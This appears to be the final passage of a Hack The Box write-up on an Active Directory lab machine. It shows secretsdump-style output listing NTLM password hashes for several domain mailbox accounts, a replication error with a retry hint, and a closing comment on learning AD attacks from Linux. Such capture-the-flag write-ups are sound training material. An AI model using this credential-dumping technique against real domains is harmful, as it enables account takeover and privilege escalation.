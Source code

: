 ```
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something wen't wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up... 
```

Now you should get what you need for highest privilege in this forest machine 

## Comment: 
A very nice AD related machine and learning about attacking an AD machine from a linux device.

